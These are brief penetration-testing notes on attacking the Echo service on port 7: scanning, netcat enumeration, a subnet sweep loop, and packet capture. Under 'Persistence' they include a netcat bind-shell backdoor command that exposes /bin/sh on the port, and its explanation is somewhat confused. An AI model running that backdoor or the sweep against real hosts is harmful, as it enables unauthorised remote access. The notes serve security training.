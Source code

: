 # Penetration Testing Techniques

## External Reconnaissance

### Port Scanning
- **Tool:** [[Nmap]]
    ```bash
    nmap <target_ip> -p 7
    ```
- **Description:** Identifies if the target service is running on the target by scanning target port.

### Service Enumeration
- **Tool:** [[NetCat]]
    ```bash
    echo "test" | nc <target_ip> 7
    ```
- **Description:** Enumerates the Echo service by sending test data and checking the response.

### Network Mapping via Echo
- **Tool:** [[NetCat]]
    ```bash
    for i in {1..254}; do echo "Ping" | nc 192.168.1.$i 7; done
    ```
- **Description:** Maps live hosts in a subnet by sending echo requests to each IP.

## Persistence

### Establishing Backdoor using Echo
- **Tool:** [[Custom Scripts]], [[NetCat]]
    ```bash
    nc -l -p 7 -e /bin/sh
    ```
- **Description:** Binds a shell to the Echo service (if misconfigured), allowing persistent access.

## Credential Harvesting

### Packet Capture
- **Tool:** [[Wireshark]]
    ```bash
    wireshark -i <interface> -f "tcp port 7"
    ```
- **Description:** Capture traffic to analyze any sensitive data inadvertently sent (rare for Echo).

## Defense Evasion
